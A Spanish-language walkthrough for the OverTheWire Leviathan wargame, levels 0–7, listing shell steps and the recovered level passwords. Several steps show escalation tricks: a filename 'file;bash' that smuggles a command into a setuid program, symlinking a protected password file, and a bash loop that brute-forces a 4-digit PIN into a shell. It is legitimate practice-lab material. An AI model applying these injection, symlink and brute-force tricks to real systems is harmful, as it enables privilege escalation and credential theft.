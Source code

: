# EJERCICIOS LEVIATHAN
### level 0
contraseña: leviathan0
### level 0 → level 1
 paso 1: una vez dentro del nivel usamos el comando "ls -la"

 paso 2: usamos el comando "cd .backup/
 
 paso 3: usamos el comando "ls"
 
 paso 4: usamos el comando "cat bookmarks.html"
 
 paso 5: usamos el comando "grep password bookmarks.html"

contraseña: 3QJ3TgzHDq
### level 1 → level 2
paso 1: usamos el comando "ls"

paso 2: usamos el comando "ltrace ./check", ponemos el password (null)

paso 3: usamos el comando "./check", ponemos el password (sex)

paso 4: usamos el comando "ls"

paso 5: usamos el comando "cat /etc/leviathan_pass/leviathan2"

contraseña: NsN1HwFoyN
### level 2 → level 3
paso 1: usamos el comando "ls" y despues "mktemp -d",para poder crear un archivo temporal

paso 2: usamos el comando "cd /tmp/tmp.gzWBltYai3" que es un directorio temporal

paso 3: usamos el comando "touch 'file;bash" para crear un archivo dentro del directorio que inicie sesion

paso 4: salimos del repositorio con "cd", usamos el comando "./printfile /tmp/tmp.gzWBltYai3/file\;bash", nos dira que no tenemos acceso pero nosotros ya estaremos escalados del leviathan2 al leviathan3 chiiiii

paso 5: usamos el comando "cat /etc/leviathan_pass/leviathan3"
 
contraseña: f0n8h2iWLP
### level 3 → level 4
paso 1: usamos el comando "ls"

paso 2: usamos el comando "ltrace ./level3", y de password ponemos cualquier cosa y nos da otro password

paso 3: usamos el comando ".level3", ponemos la contraseña (snlprintf)

paso 4: usamos el comando "ls"

paso 5: usamos el comando "cat /etc/leviathan_pass/leviathan4"
 
contraseña: WG1egElCvO
### level 4 → level 5
paso 1: usamos el comando "ls -la" 

paso 2: usamos el comando "cd .trash/"

paso 3: usamos el comando "ls -la", dentro del directorio (.trash)

paso 4: usamos el comando "./bin" y nos muestra numero de codigo binario

paso 5: suponemos que es la contraseña asi que vamos a una pagina que convierta numeros binarios a texto
 
contraseña: 0dyxT7F4QD
### level 5 → level 6
paso 1: usamos el comando "ls -la"

paso 2: usamos el comando "./leviathan"

paso 3: usamos el comando "ltrace ./leviathan5"

paso 4: usamos el comando "touch /tmp/file.log"

paso 5: usamos el comando "./leviathan5"

paso 6: usamos el comando "ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log"

paso 7: usamo el comando "./leviathan5"
 
contraseña: szo7HDB88w
### level 6 → level 7
paso 1: usamos el comando "ls -la"

paso 2: usamos el comando "./leviathan6", nos pide un codigo de 4 digitos 

paso 3: usamos el comando "for i in {0000..9999} ;do echo $i;./leviathan6 $i;done;", lo forzamos a que nos de el codigo, añ final nos dio un shell

paso 4: usamos el comando "whoami"

paso 5: usamos el comando "$ cat /etc/leviathan_pass/leviathan7"

contraseña: qEs5Io5yM8
